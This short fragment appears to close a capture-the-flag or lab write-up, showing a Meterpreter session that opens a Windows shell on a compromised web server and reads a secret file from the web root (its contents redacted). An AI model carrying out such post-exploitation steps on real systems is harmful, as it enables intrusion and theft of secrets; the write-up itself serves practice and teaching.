 
```bash
meterpreter > shell
Process 3740 created.
Channel 3 created.
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd ../../inetpub/wwwroot/          
cd ../../inetpub/wwwroot/

C:\inetpub\wwwroot>type realsecret.txt
type realsecret.txt
[REDACTED]
```

Done!